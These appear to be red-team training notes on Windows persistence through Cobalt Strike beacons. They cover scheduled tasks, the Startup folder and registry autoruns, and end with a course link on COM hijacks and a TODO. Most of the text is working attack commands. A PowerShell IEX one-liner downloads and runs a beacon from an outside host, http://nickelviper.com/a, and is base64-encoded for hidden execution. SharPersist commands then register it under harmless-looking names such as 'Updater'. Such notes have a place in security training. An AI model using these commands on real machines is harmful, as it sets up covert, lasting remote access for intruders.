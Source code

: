# Task Scheduler persistence

Create base64 command to download and execute your beacon

```bash
$str = 'IEX ((new-object net.webclient).downloadstring("http://nickelviper.com/a"))'
[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
...(copy contents)
```

Create a task through the beacon interactive shell

```bash
execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAA..." -n "Updater" -m add -o hourly
```

---

# StartUp Folder persistence

Create base64 command to download and execute your beacon

```bash
$str = 'IEX ((new-object net.webclient).downloadstring("http://nickelviper.com/a"))'
[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
...(copy contents)
```

Create a task through the beacon interactive shell

```bash
execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t startupfolder -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAA..." -f "UserEnvSetup" -m add
```

---

# Registry Autorun persistence

Create a http payload in cobalt strike

```bash
upload C:\Payloads\http_x64.exe
mv http_x64.exe Updater.exe
```

Create an AutoRun through the beacon interactive shell

```bash
execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t reg -c "C:\ProgramData\Updater.exe" -a "/q /n" -k "hkcurun" -v "Updater" -m add
```

---

# Hunting for COM Hijacks

```bash
https://training.zeropointsecurity.co.uk/courses/take/red-team-ops/texts/38149212-hunting-for-com-hijacks
```
---

# TODO (certificates)
